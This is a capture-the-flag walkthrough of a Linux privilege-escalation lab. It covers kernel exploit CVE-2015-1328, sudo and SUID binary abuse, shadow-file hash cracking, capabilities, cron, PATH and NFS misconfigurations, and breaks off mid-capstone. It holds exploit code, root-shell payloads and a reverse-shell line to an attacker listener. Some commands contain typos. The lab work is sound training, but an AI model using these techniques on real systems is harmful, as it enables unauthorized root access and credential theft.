

The goal of Privilege Escalation is to go from an account with lower/restricted permission to one with higher permissions. This is usually accomplished by exploiting a vulnerability, design oversights/flaws, or misconfiguration in an operating system or application that allows us to gain unauthorized access to restricted resources.

### Why is it important?

It is uncommon to gain an initial foothold with admin access. Thus, performing privilege escalation is a key factor in moving forward, because with administrator access can allow us to perform some of the following actions:

- Resetting passwords
- Bypassing access controls to compromise protected data
- Editing software configurations
- Enabling persistence
- Changing the privilege of existing (or new) users
- Execute any administrative command

## Enumeration

The enumeration phase is the first step once we gain an initial foothold to the target system. We can leverage some of the built-in Linux commands to get more information about our target which we might be able to leverage to perform privilege escalation.  
   
For this challenge we are given some creds to access the system:

```sh
ssh karen@10.10.138.76
The authenticity of host '10.10.138.76 (10.10.138.76)' can't be established.
ECDSA key fingerprint is SHA256:2Jwy90uXhJ7tauI06IwaC9BDSjK9/HsuVGpB1CDYFvw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.138.76' (ECDSA) to the list of known hosts.
karen@10.10.138.76's password:
Welcome to Ubuntu 14.04 LTS (GNU/Linux 3.xx.x-xx-generic x86_64)
<<<------------------------ Snipped ------------------------>>>
Last login: Thu Nov  4 09:23:40 2021 from ip-1x-10x-1x-8x.eu-west-1.compute.internal
Could not chdir to home directory /home/karen: No such file or directory
$  
```

Right away we are already getting some useful information. Notice the target system is using `Ubuntu 14.04 LTS` and the kernel version is also given to us the `3.xx.x-xx-generic`.

Let's check just a couple more things, since that last line before the prompt is interesting :)

```sh
$ whoami
karen
$ pwd
/
$ ls
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  sys  usr  vmlinuz
boot  dev    home  lib         lost+found  mnt    proc  run   srv   tmp  var
```

From this we can gather that there may be a misconfiguration, possibly in the `/etc/passwd` for the karen user. We are also in the root of the file system. So far, so good!

**What is the hostname of the target system?**  
For this we can use the `hostname` command:

```sh
$ hostname
w------3
```

**What is the Linux kernel version of the target system?**  
It was given to us when we logged in, however, we can also use `uname -a` to get it:

```sh
$ uname -a
Linux w------3 3.xx.x-xx-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

**What Linux is this?**  
What this question is asking is what distro/version we are using. Once again this was given to us in the login banner :) `Ubuntu 14.04 LTS`

**What version of the Python language is installed on the system?** Being such an old version of Ubuntu, you can bet that it is using Python 2:

```sh
$ python --version
Python 2.7.x
```

**What vulnerability seem to affect the kernel of the target system? (Enter a CVE number)**  
This part will take a quick Google search or we can check out Exploit-DB.



# Privilege Escalation: Kernel Exploits

The kernel runs as a higher privilege and it is the core of the operating system and the interface between system components and applications. A vulnerability in the kernel can lead to privilege escalation, often super user (root in our case). To proceed we can take a look at what came out of our Google search from the last step...  
   
One of the links for this CVE comes straight from Ubuntu in which they explain the vulnerability:

> https://ubuntu.com/security/CVE-2015-1328
> 
> Published: 15 June 2015  
>   
> The overlayfs implementation in the linux (aka Linux kernel) package before 3.19.0-21.21 in Ubuntu through 15.04 does not properly check permissions for file creation in the upper filesystem directory, which allows local users to obtain root access by leveraging a configuration in which overlayfs is permitted in an arbitrary mount namespace.  
> From the Ubuntu security team  
>   
> Philip Pettersson discovered a privilege escalation when using overlayfs mounts inside of user namespaces. A local user could exploit this flaw to gain administrative privileges on

This gives us a brief background of what the flaw is. Lucky for us there are exploits already available, I found a couple here:

- https://www.exploit-db.com/exploits/37292
- https://www.exploit-db.com/exploits/40688  
       
    If we look at the first link with the `C` code. We can skim through and see that it is using `fork()` to spawn a process and executing the `child_exec` function in which it is using the `mount()` function. The mount function looks like this:

```c
int mount(const char *source, const char *target,
                 const char *filesystemtype, unsigned long mountflags,
                 const void *data);
```

Thus in the first mount, we can see is using the `overlayfs` as the `filesystemtype`, the second mount looks like it is used to make the exploit more robust by supporting new kernels. The target path `/tmp/ns_sploit/o` and the data passed in also contain the `/tmp/ns_sploit/`path. As we follow the rest of the code, we see a `chmod` function with the `0777` value file permissions, that allows `rwx` by any user for `ld.so.preload`.    
Following the fork the code writes the LIB code to `/tmp/ofs-lib.c`, which is then compiled with gcc into the file `/tmp/ofs-lib.so`. Now the code from the `/tmp/ofs-lib.so` gets written into `fd` which is `/etc/ld.so.preload`.

I cleaned up the 'LIB' code so we can see it better:

```c
#include <unistd.h>

uid_t(*_real_getuid) (void);
char path[128];

nuid_t ngetuid(void)
{
    _real_getuid = (uid_t(*)(void)) dlsym((void *) -1, "getuid");
    
    readlink("/proc/self/exe", (char *) &path, 128);

    if(geteuid() == 0 && !strcmp(path, "/bin/su")) {
        unlink(\"/etc/ld.so.preload");
        unlink(\"/tmp/ofs-lib.so");
        setresuid(0, 0, 0);
        setresgid(0, 0, 0);
        execle(\"/bin/sh", "sh", "-i", NULL, NULL);
    }
    return _real_getuid();
}
```

This is where some magic happens, we change the `userid` and `groupid` to `0`, that's the id and group of the `root` user!

Alright, now let's take this exploit for a spin...

So we first have to get the code to the machine. We have a few options here:

1. We can create a local file in the `/tmp/` directory and paste the code to that file
2. We can transfer it  
       
    I decided to go with the later, I put the code in a CVE-2015-1328.c file and setup a local python http server: `python3 -m http.sever 8888`. Now from out target machine I did a `wget http://1.2.3.4:8888/CVE-2015-1328.c` and boom we got it now in the target machine.  
       
    Now we have to compile the code: `gcc CVE-2015-1328.c -o pwned`  
    Let check out what user we are before we run the exploit:

```
$ id
uid=1001(karen)  gid=1001(karen)  groups=1001(karen)
```

Ok, now let's run this!

```
$ ./pwned
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so/preload created
creating shared library
# id
uid=0(root)  gid=0(root)  groups=0(root),1001(karen)
```

Money! Now let's find the flag. You could use this to find it `find . -name "flag1.txt"`, but I did some snooping around prior to and looked in the home directory where we have a user matt who happens to have this flag1.txt :)

# Privilege Escalation: Sudo

In this task we are trying to leverage programs that may be running as sudo or programs that we are given permissions to run as sudo. We can check which ones those are by running `sudo -l`:

```
$ sudo -l                           
Matching Defaults entries for karen on ip-10-10-148-237:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User karen may run the following commands on ip-10-10-148-237:
    (ALL) NOPASSWD: /usr/bin/find
    (ALL) NOPASSWD: /usr/bin/less
    (ALL) NOPASSWD: /usr/bin/nano

```

Alright, so we now know that we are allowed to run `find`, `less`, and `nano` with sudo!

Sometimes we can abuse the functionality of `LD_PRELOAD` which allows program to use/load shared libraries. Here is a code snippet which may allow us to get this done:

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Check out [this blog post](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/) to read further about LD\_PRELOAD abuse.  
   
However, this is not a technique that we can used since `env_keep+=LD_PRELOAD` was not listed in the `sudo -l` output above...

Let's try using [GTFOBins](https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/), a great resource that provides us ways to abuse programs that the current user may have access to that will then allow us to break out of the restricted shell and escalate our privilege.  
  Let's try the given command: `sudo find . -exec /bin/sh \; -quit` :

```
karen@ip-10-10-58-234:/tmp/ldpreload$ whoami
karen
karen@ip-10-10-58-234:/tmp/ldpreload$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
karen@ip-10-10-58-234:/tmp/ldpreload$ sudo find . -exec /bin/sh \; -quit
# whoami
root
# id     
uid=0(root) gid=0(root) groups=0(root)
```

Awesome! We are root! After looking around, I found the flag in `/home/ubuntu/flag2.txt`.

**Q & A**:  
How would you use Nmap to spawn a root shell if your user had sudo rights on nmap?

We can do this by running `sudo nmap --interactive` and then spawning a shell using '!sh'

What is the hash of frank's password?

```
# cat /etc/shadow | grep -i frank
frank:$6$2.s
```

## Let's be more curious...

We know that we have 2 other programs with sudo permissions. Let's explore if and how we could abuse those to break out of our restricted shell...

### Abusing `less` for PrivEsc

  The `less` program is utility used to read through files. If we reference the GTFOBins page, there is a way that we can try to escape this restricted shell. Let's run `sudo less /etc/profile` while in the program use `!` followed by `bash` and return:

```sh
karen@ip-10-10-23-165:/tmp$ whoami
karen
karen@ip-10-10-23-165:/tmp$ sudo less /etc/profile
root@ip-10-10-23-165:/tmp# whoami
root
root@ip-10-10-23-165:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-23-165:/tmp# 
```

We found us another way to PrivEsc!

### Abusing `nano` for PrivEsc

2 Down, 1 to go. Let's take a look at how we can leverage nano to give us a root shell. Let's execute `sudo nano`, once in the program `CTRL+R`, `CTRL+X`

```sh
karen@ip-10-10-23-165:/tmp$ sudo nano
Command to execute: reset; bash 1>&0 2>&0                        
^G Get Help          M-F New Buffer       ^X Read File
^C Cancel            M-\ Pipe Text
                        [ Executing... ]root@ip-10-10-23-165:/tmp# lset Help          M-F New Buffer       ^X Read File
snap.lxdl            M-\ Pipe Text
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-logind.service-u9RhYf
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-resolved.service-g9QwOg
systemd-private-5fba076f5ebf42238c7cb385a53fdce3-systemd-timesyncd.service-ZrpeOg
root@ip-10-10-23-165:/tmp# whoami
root
root@ip-10-10-23-165:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-23-165:/tmp# 
```

Awesome! We were able to get a root shell with all 3 programs!

# Privilege Escalation: SUID

There is an additional permission we can leverage. We know the the regular permissions `rwx`, but there is 2 additional permissions that can be set. Those are the `SUID` (Set-User IDentification) and `SGID` (Set-Group IDentification) which allow the target files to be executed with the permissions of the owner (for the SUID case) or the group (for the SGID case).

We can find said program using `find / -type f -perm -04000 -ls 2>/dev/null`:

```
karen@ip-10-10-181-108:/tmp$ find / -type f -perm -04000 -ls 2>/dev/null
       66     40 -rwsr-xr-x   1 root     root        40152 Jan 27  2020 /snap/core/10185/bin/mount
       80     44 -rwsr-xr-x   1 root     root        44168 May  7  2014 /snap/core/10185/bin/ping
       81     44 -rwsr-xr-x   1 root     root        44680 May  7  2014 /snap/core/10185/bin/ping6
       98     40 -rwsr-xr-x   1 root     root        40128 Mar 25  2019 /snap/core/10185/bin/su
<<<---------------------------- Snipped ---------------------------->>>>
     1857     52 -rwsr-xr-x   1 root     root               53040 May 28  2020 /usr/bin/chsh
     1722     44 -rwsr-xr-x   1 root     root               43352 Sep  5  2019 /usr/bin/base64
     1674     68 -rwsr-xr-x   1 root     root               67816 Jul 21  2020 /usr/bin/su
     2028     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
     2166     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
     1633     56 -rwsr-xr-x   1 root     root               55528 Jul 21  2020 /usr/bin/mount
```

I think a good to use in this scenario is `base64`, we can access sensitive/restricted files with this utility. A good target for this would be to snag the `/etc/shadow` and `/etc/passwd` files, that way we can use our friend `John The Ripper` to hopefully crack some of the hashes of one or more users and then escalated our privileges leveraging their credentials. Let's walk through this:  
_`/etc/passwd`_:

```
karen@ip-10-10-181-108:/tmp$ base64 /etc/passwd | base64 --decode
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
<<<---------------------------- Snipped ---------------------------->>>>
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
gerryconway:x:1001:1001::/home/gerryconway:/bin/sh
user2:x:1002:1002::/home/user2:/bin/sh
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
karen:x:1003:1003::/home/karen:/bin/sh
```

_`/etc/shadow`_:

```
karen@ip-10-10-181-108:/tmp$ base64 /etc/shadow | base64 --decode
root:*:18561:0:99999:7:::
daemon:*:18561:0:99999:7:::
bin:*:18561:0:99999:7:::
<<<---------------------------- Snipped ---------------------------->>>>
gerryconway:$6$vgzgxM3ybTlB.wkV$48YDY7qQnp4purOJ19mxfMOwKt.H2LaWKPu0zKlWKaUMG1N7weVzqobp65RxlMIZ/NirxeZdOJMEOp3ofE.RT/:18796:0:99999:7:::
user2:$6$m6VmzKTbzCD/.I10$cKOvZZ8/rsYwHd.pE099ZRwM686p/Ep13h7pFMBCG4t7IukRqc/fXlA1gHXh9F2CbwmD4Epi1Wgh.Cl.VV1mb/:18796:0:99999:7:::
lxd:!:18796::::::
karen:$6$VjcrKz/6S8rhV4I7$yboTb0MExqpMXW0hjEJgqLWs/jGPJA7N/fEoPMuYLY1w16FwL7ECCbQWJqYLGpy.Zscna9GILCSaNLJdBP1p8/:18796:0:99999:7:::
```

We can copy and paste this to our local machine as password.txt and shadow.txt respectively. Next we need to "combine" these two together into a file that we can leverage `John` to crack the hashes, we can use the `unshadow` tool to do this, giving the two files as input:

```sh
$ unshadow passwd.txt shadow.txt > crackme.txt
Created directory: /home/rev/.john
```

Now let's try using `john` with a word list...

```sh
ohn --wordlist=/usr/share/wordlists/rockyou.txt crackme.txt
Warning: detected hash type "sha512crypt", but the string is also recognized as "HMAC-SHA256"
Use the "--format=HMAC-SHA256" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P-------- (karen)
P-------- (user2)
t------ (gerryconway)
3g 0:00:00:05 DONE (2021-11-07 09:51) 0.5747g/s 3432p/s 4806c/s 4806C/s paramedic..biscuit1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Sweet! We cracked some hashes, we now have `user2` and `gerryconway`. Our next step would be switching to this users and attempt to you their permissions to get us more permissions. However, for this task the only thing that is left to do is read the flag, for this we can use the same `base64` trick!

```sh
base64 /home/ubuntu/flag3.txt | base64 --decode
```

# Privilege Escalation: Capabilities

Capabilities provides a way for administrators to manage the privilege level of a binary or process in a more granular level. To check the capabilities we can use the `getcap` tool:

```
karen@ip-10-10-91-51:~$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

We can see that `vim` can be leveraged because it is given the `cap_setuid+ep` capability. Let's leverage vim and execute a shell using python:

```
vim -c `:py3 import os; os.setuid(0); os.excel("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Awesome, now let's grab that flag :)

# Privilege Escalation: Cron Jobs

Cron Jobs are scheduled tasks that may run binaries or scripts in the context of their owner. If we can find one of these which we can modify, we can escalate our privileges that way. Cron Jobs are stored in cron tables (crontabs) at `/etc/crontab`, let's take a look:

```
$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
$ bash 
karen@ip-10-10-23-186:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /antivirus.sh
* * * * *  root antivirus.sh
* * * * *  root /home/karen/backup.sh
* * * * *  root /tmp/test.py
```

Right away, of interest is the `/home/karen/backup.sh`. It is ran as `root`!

```
karen@ip-10-10-23-186:~$ ls -lh /home/karen/
total 4.0K
-rw-r--r-- 1 karen karen 77 Jun 20 10:21 backup.sh
karen@ip-10-10-23-186:~$ cat backup.sh 
#!/bin/bash
cd /home/admin/1/2/3/Results
zip -r /home/admin/download.zip ./*
```

We might be able to do something with that...  
First we must setup our handy netcat listener on our attacking machine `nc -lvp 6666`.

Lets create our own backup.sh and save this one:

```
$ mv backup.sh backup.sh.bkup
$ touch backup.sh
$ vim backup.sh
# Insert this line with your IP in the script:
bash -i >& /dev/tcp/1.2.3.4/6666 0>&1
```

Next time the cron job executes the backup.sh, it will be executed as root and connect to our netcat listener giving us a root shell:

```
$ nc -lvp 6666
listening on [any] 6666 ...
10.10.23.186: inverse host lookup failed: Unknown host
connect to [1.2.3.4] from (UNKNOWN) [10.10.23.186] 49878
bash: cannot set terminal process group (13249): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-23-186:~# 
```

Nice, we got ourselves a `root` shell! We can find the flag @ `/home/ubuntu/flag5.txt`.

Another avenue we could take is use the `/tmp/test.py` script.

```
aren@ip-10-10-23-186:~$ ls -lh /tmp/
total 16K
drwx------ 3 root root 4.0K Nov  8 14:21 snap.lxd
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-logind.service-HdbVYg
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-resolved.service-4imyug
drwx------ 3 root root 4.0K Nov  8 14:21 systemd-private-7602d9f312b541e09ce990034a6cfbd6-systemd-timesyncd.service-z0lATg
```

It does not exist, thus we could use this in the same way! Remember that a file is just that, a file, and just because it has a python extension `.py` doesn't mean that it has to have python code :) I am pretty confident you could just add the same reverse shell (`bash -i >& /dev/tcp/127.0.0.1/6666 0>&1`) to this script and it would have the same outcome!

As an additional task we are requested the password for the _matt_ user. For this, we can gather the `/etc/passwd` file and now that we have root privileges, we can also collect the `/etc/shadow` file which we need to attempt to crack the hash. Since our target is only the `matt` user we can just copy that line for that user out of the '/etc/passwd`and`/etc/shadow\` files and use the unshadow tool:

```
$ unshadow passwd.txt shadow.txt > crackmatt.txt
```

Now we can attempt to crack the hash with the good ol rockyou.txt word list:

```
john --wordlist=/usr/share/wordlists/rockyou.txt crackmatt.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
```

Soon after I am confident you'll get the password!

# Privilege Escalation: PATH

We can potentially abuse the way the OS searches for executables via the `PATH` environment variable, because it holds the literal paths where the OS will look. Let's take a look at what's available to us:

```
$ echo $PATH
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
$ pwd
/
$ bash
karen@ip-10-10-61-31:/$ ls home/
matt/    murdoch/ ubuntu/  

```

We can search for writeable folders using `find / -writable 2>/dev/null`, but we can also leverage `find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -` which filters out procs and gives us a cleaner output:

```
dev/char
dev/fd
dev/full
dev/fuse
dev/log
dev/mqueue
dev/net
dev/null
dev/ptmx
dev/pts
dev/random
dev/shm
dev/stderr
dev/stdin
dev/stdout
dev/tty
dev/urandom
dev/zero
etc/udev
home/murdoch
run/acpid.socket
run/dbus
run/lock
run/screen
run/shm
run/snapd-snap.socket
run/snapd.socket
run/systemd
run/user
run/uuidd
snap/core
snap/core18
snap/core20
sys/fs
sys/kernel
tmp
tmp/.ICE-unix
tmp/.Test-unix
tmp/.X11-unix
tmp/.XIM-unix
tmp/.font-unix
usr/lib
var/crash
var/lock
var/tmp
```

It looks like we have write access to `/home/murdoch`, this might be of interest in the near future! Let's now take a look around to see what we can find:

```
karen@ip-10-10-156-188:/$ ls /home/ubuntu/
karen@ip-10-10-61-31:/$ ls home/matt/
flag6.txt
karen@ip-10-10-156-188:/$ ls -lh /home/murdoch/
total 24K
-rwsr-xr-x 1 root root 17K Jun 20 12:23 test
-rw-rw-r-- 1 root root  86 Jun 20 17:48 thm.py
```

This `test` file has root privileges and all users can read and execute it. Then, we have this `thm.py` as well which all users can read. Let's find out more about these files:

```
karen@ip-10-10-156-188:/home/murdoch$ file test
test: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1724ca90b94176ea2eb867165e837125e8e5ca52, for GNU/Linux 3.2.0, not stripped
karen@ip-10-10-156-188:/home/murdoch$ 
karen@ip-10-10-156-188:/home/murdoch$ file thm.py
thm.py: Python script, ASCII text executable
karen@ip-10-10-156-188:/home/murdoch$ ldd test
        linux-vdso.so.1 (0x00007fff5a921000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007efca55e9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007efca57e8000)

karen@ip-10-10-156-188:/home/murdoch$ cat thm.py 
/usr/bin/python3

import os
import sys

try: 
        os.system("thm")
except:
        sys.exit()

karen@ip-10-10-156-188:/home/murdoch$ ./test
sh: 1: thm: not found
```

I ran the test executable, and we can see that it complains that `thm` is not found. Creating our own `thm` file might just work! So let's do that, create the file using `touch thm`, make it executable `chmod +x thm`:

```
sudo su -
# We can also add this line here to get us the flag:
# cat /home/matt/flag6.txt
bash
```

Ok now that we have that done let's try it out. Remember we must also add the current path to the `PATH` variable:

```
karen@ip-10-10-156-188:/home/murdoch$ export PATH=/home/murdoch:$PATH
karen@ip-10-10-156-188:/home/murdoch$ ./test
root@ip-10-10-156-188:~# cat /home/matt/flag6.txt
THM-*******
```

Bingo! We got out flag and a `root` shell! Buy one, get one free :)

# Privilege Escalation: NFS

Here we are looking at abusing privileges of Network File Sharing (NFS) configuration `/etc/exports`. Let's connect to the system and have a look"

```
$ ps aux | grep nfsd
root         435  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         436  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         437  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         438  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         439  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         440  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         441  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
root         442  0.0  0.0      0     0 ?        S    00:03   0:00 [nfsd]
karen       1216  0.0  0.0   8160   664 pts/1    S+   00:15   0:00 
```

Let's take a look at the file itself:

```
karen@ip-10-10-242-200:/$ cat /etc/exports 
# /etc/exports: the access control list for filesystems which may be exported                                                         
#               to NFS clients.  See exports(5).                   
#                                                                  
# Example for NFSv2 and NFSv3:                                     
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)                                            
#                                                                  
# Example for NFSv4:                                               
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)                                                                
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)             
#                                                                  
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)   
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)           
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

We have found some useful information in the `/etc/exports` file. We can see that some of the shares have the `no_root_squash` option, this is good because that means that we can create files to be executed as root if we modify them in our client machine. We can expect that `/home/backup`, `tmp`, and `/home/ubuntu` are mountable shares, from our `attack` machine let's check:

```
$ showmount -e 10.10.242.200
Export list for 10.10.242.200:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Awesome, let's attempt to mount the `/home/ubuntu/sharedfolder` share on our attacker machine:

```
$ mkdir /tmp/sharedfolder
$ mount -o rw 10.10.242.200:/home/ubuntu/sharedfolder  /tmp/sharedfolder
```

Now let's create our payload main.c:

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
   setgid(0);
   setuid(0);
   system("/bin/bash");
   return 0;
}

```

Compile it:

```
$ gcc main.c -o pwned -w
```

Let's copy it and modify the permissions:

```
$ cp pwned /tmp/sharedfolder
$ sudo chown root:root /tmp/sharedfolder/pwned
$ sudo chmod +s /tmp/sharedfolder/pwned
```

Now let's run it!

```
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ whoami
karen
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ id
uid=1001(karen) gid=1001(karen) groups=1001(karen)
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ ls -lh
total 16K
-rwsr-sr-x 1 root root 16K Nov 11 12:44 pwned
karen@ip-10-10-242-200:/home/ubuntu/sharedfolder$ ./pwned 
root@ip-10-10-242-200:/home/ubuntu/sharedfolder# id
uid=0(root) gid=0(root) groups=0(root),1001(karen)
root@ip-10-10-242-200:/home/ubuntu/sharedfolder# cat /home/matt/flag7.txt
```

We got our root shell and a flag :)

# Capstone Challenge

Alright, we made it this far...Let's take on the capstone challenge!  
The scenario "You have gained SSH access to a large scientific facility. Try to elevate your privileges until you are Root." We are also given the two target files: `flag1.txt` and 'flag2.txt\`.  
  Let's login to this machine and start exploring

```
[leonard@ip-10-10-54-52 ~]$ whoami
leonard
[leonard@ip-10-10-54-52 ~]$ id
uid=1000(leonard) gid=1000(leonard) groups=1000(leonard) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

Let's check the kernel:

```
uname -a
Linux ip-10-10-54-52 3.10.0-1160.el7.x86_64 #1 SMP Mon Oct 19 16:18:59 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

I didn't come up with any exploits for this kernel version on my quick search.  
After some more looking around I found that `base64` might be handy since it has the `SUID` bit set:

```
[leonard@ip-10-10-54-52 perl5]$ find / -type f -perm -04000 -ls 2>/dev/null
16779966   40 -rwsr-xr-x   1 root     root        37360 Aug 20  2019 /usr/bin/base64
17298702   60 -rwsr-xr-x   1 root     root        61320 Sep 30  2020 /usr/bin/ksu
17261777   32 -rwsr-xr-x   1 root     root        32096 Oct 30  2018 /usr/bin/fusermount
17512336   28 -rwsr-xr-x   1 root     root        27856 Apr  1  2020 /usr/bin/passwd
17698538   80 -rwsr-xr-x   1 root     root        78408 Aug  9  2019 /usr/bin/gpasswd
17698537   76 -rwsr-xr-x   1 root     root        73888 Aug  9  2019 /usr/bin/chage
17698541   44 -rwsr-xr-x   1 root     root        41936 Aug  9  2019 /usr/bin/newgrp
17702679  208 ---s--x--- 1 root     stapusr    212080 Oct 13  2020 /usr/bin/staprun
17743302   24 -rws--x--x   1 root     root        23968 Sep 30  2020 /usr/bin/chfn
17743352   32 -rwsr-xr-x   1 root     root        32128 Sep 30  2020 /usr/bin/su
17743305   24 -rws--x--x   1 root     root        23880 Sep 30  2020 /usr/bin/chsh
17831141 2392 -rwsr-xr-x   1 root     root      2447304 Apr  1  2020 /usr/bin/Xorg
17743338   44 -rwsr-xr-x   1 root     root        44264 Sep 30  2020 /usr/bin/mount
17743356   32 -rwsr-xr-x   1 root     root        31984 Sep 30  2020 /usr/bin/umount
17812176   60 -rwsr-xr-x   1 root     root        57656 Aug  9  2019 /usr/bin/crontab
17787689   24 -rwsr-xr-x   1 root     root        23576 Apr  1  2020 /usr/bin/pkexec
18382172   52 -rwsr-xr-x   1 root     root        53048 Oct 30  2018 /usr/bin/at
20386935  144 ---s--x--x   1 root     root       147336 Sep 30  2020 /usr/bin/sudo
34469385   12 -rwsr-xr-x   1 root     root        11232 Apr  1  2020 /usr/sbin/pam_timestamp_check
34469387   36 -rwsr-xr-x   1 root     root        36272 Apr  1  2020 /usr/sbin/unix_chkpwd
36070283   12 -rwsr-xr-x   1 root     root        11296 Oct 13  2020 /usr/sbin/usernetctl
35710927   40 -rws--x--x   1 root     root        40328 Aug  9  2019 /usr/sbin/userhelper
38394204  116 -rwsr-xr-x   1 root     root       117432 Sep 30  2020 /usr/sbin/mount.nfs
958368   16 -rwsr-xr-x   1 root     root        15432 Apr  1  2020 /usr/lib/polkit-1/polkit-agent-helper-1
